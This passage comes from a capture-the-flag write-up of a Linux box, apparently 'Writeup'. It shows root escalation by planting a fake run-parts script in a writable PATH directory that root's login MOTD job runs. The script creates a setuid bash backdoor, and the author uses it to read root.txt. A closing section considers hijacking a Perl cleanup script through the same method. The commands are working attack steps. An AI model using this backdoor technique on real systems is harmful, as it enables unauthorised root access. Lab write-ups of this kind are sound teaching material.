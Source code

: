 
A few things happen there, but the most interesting is the three commands that
are initiated with `sh -c /usr/bin/env -i
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts
--lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new`.

### Hijack run-parts

When a user logs in, root runs `sh`, which runs `/usr/bin/env`, which provides
a specific path and runs `run-parts` on the `update-motd.d` folder. I’ll
immediately notice that the `$PATH` includes at the front the two folders I
can write to.

I will write a script to `/usr/local/bin/run-parts`, make sure it’s
executable, and then `ssh` in again:

    
    
    jkr@writeup:~$ echo -e '#!/bin/bash\n\ncp /bin/bash /bin/0xdf\nchmod u+s /bin/0xdf' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
    jkr@writeup:~$ cat /usr/local/bin/run-parts
    #!/bin/bash
    
    cp /bin/bash /bin/0xdf
    chmod u+s /bin/0xdf
    

Now I can `ssh` in, and my new backdoored shell is waiting:

    
    
    jkr@writeup:~$ ls -l /bin/0xdf
    -rwsr-xr-x 1 root root 1099016 Jun 17 02:29 /bin/0xdf
    

Because it’s `bash` and it drops suid privs by default, I’ll run with `-p` to
keep root:

    
    
    jkr@writeup:~$ 0xdf -p
    0xdf-4.4# id
    uid=1000(jkr) gid=1000(jkr) euid=0(root) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
    

And I can grab `root.txt`:

    
    
    0xdf-4.4# cat /root/root.txt
    eeba47f6...
    

## Beyond Root - Playing with perl

### Hijack cleanup.pl

My first thought when I saw the staff group and the root cron running
`cleanup.pl` was to hijack that script. Since the script was being called as
an executable, it must have a `#!` at the top to tell it what interpreter to
run. If the author had written this as `#!/usr/bin/perl`, I would be out of
luck. But had the author used `#!/usr/bin/env perl`, I could hijack it. I
tried writing my script to `/usr/local/bin/perl`, but nothing happened when
the cron ran.
